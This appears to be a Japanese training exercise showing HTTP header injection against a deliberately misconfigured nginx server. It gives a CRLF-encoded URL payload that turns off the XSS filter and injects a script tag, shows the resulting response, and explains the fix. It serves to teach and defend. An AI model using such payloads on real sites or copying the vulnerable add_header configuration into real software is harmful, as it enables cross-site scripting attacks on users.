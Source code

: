 ## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは、nginxの設定であえてHTTPヘッダインジェクションを可能にする設定を加えることで、
特定のURI `/v1/*.json` (`*`は任意の文字列)に対して、`X-Action: (任意の文字列)`というHTTPヘッダを返すようにしています。
この任意の文字列の中で改行検査をしていないため、HTTPヘッダインジェクションを起こすことができます。

### 攻撃

1. 以下のURLにアクセスします: `https://<疑似ブラウザに表示されているドメイン>/v1/see%0d%0aX-XSS-Protection:%200%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E.json`
2. インジェクションによるJavaScriptのalertダイアログが上がってきます。

この攻撃では、改行や特殊文字を解釈して示すと、以下の内容をHTTPヘッダインジェクションしていることになります。

```
see
X-XSS-Protection: 0
Content-Type: text/html

<script>alert(1)</script>.json
```

この攻撃の効果としては以下を意図しています。

* 最初の `see` は `X-Action: see` として出力される（攻撃としての効果はない）
* `X-XSS-Protection: 0` とすることでブラウザのXSSフィルタを無効化する
* `Content-Type: text/html` とすることで `<script>` タグによるXSSを使えるようになる

実際のHTTPでの返答例は次のようになります。

```
HTTP/1.1 200 OK
Server: nginx/1.15.5
Date: Wed, 31 Oct 2018 23:45:04 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 64
Connection: keep-alive
X-Action: see
X-XSS-Protection: 0
Content-Type: text/html

<script>alert(1)</script>

{"comment": "This is v1 endpoint.",
```

なお、`Content-Length: 64` となっているのは、nginx.confのreturnで返す以下の内容が64文字になっているためです。インジェクションによってこのJSONの返答の内容の前にヘッダが追加されるため、その分後から切り詰められています。

```
{"comment": "This is v1 endpoint.", "url": "http://example.com"}
```

### 攻撃の対策

この攻撃は、nginx.confのこの部分によって引き起こされたものですので、以下の該当部分を削除すれば攻撃の可能性はなくなります。

```
        location ~ /v1/((?<action>[^.]*)\.json)?$ {
            # inject received content
            add_header X-Action $action;
            return 200 '{"comment": "This is v1 endpoint.", "url": "http://example.com"}';
        }
```

この設定の具体的な問題としては

* 変数 `$action` を設定する正規表現で改行コードの検査をしていない
* `add_header` にて改行コードの検査をしていない

ことが挙げられます。
